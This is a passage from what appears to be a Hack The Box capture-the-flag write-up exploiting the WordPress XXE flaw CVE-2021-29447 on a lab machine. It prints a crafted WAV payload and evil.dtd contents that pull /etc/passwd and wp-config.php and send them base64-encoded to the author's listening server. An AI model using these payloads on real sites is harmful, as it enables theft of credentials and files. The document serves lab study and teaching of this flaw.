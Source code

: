 [Article that I followed](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)


From some research, it turns out Wordpress 5.6.2 running on metapress.htb is vulnerable to CVE-2021-29447 which abuses XXE vulnerability.

#### Impact

1. **Arbitrary File Disclosure**: The contents of any file on the host’s file system could be retrieved, e.g. wp-config.php which contains sensitive data such as database credentials.

2. **Server-Side Request Forgery (SSRF)**: HTTP requests could be made on behalf of the WordPress installation. Depending on the environment, this can have a serious impact.


#### Execution

I will first create **payload.wav** file what will retrieve **evil.dtd** file from my Python HTTP server:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.21:8000/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-27.png)

For **evil.dtd** file, I will add in following content so that it will read `/etc/passwd` and send it back to my Python HTTP server:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.21:8000/?p=%file;'>" >
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-28.png)

When uploading **payload.wav** file, it shows on error on the web app:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-29.png)

However, on my HTTP server, It sends back base64 encrypted `/etc/passwd`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-30.png)

I can use `base64 -d` to decrypt it and it works fine. Note here that there is a user **jnelson** with `/bin/bash` privilege:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-31.png)

#### Read wp-config.php

Often **wp-config.php** file contains valuable information such as credentials. 

I will edit **evil.dtd** file as such to read **wp-config.php**:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.21:8000/?p=%file;'>" >
```

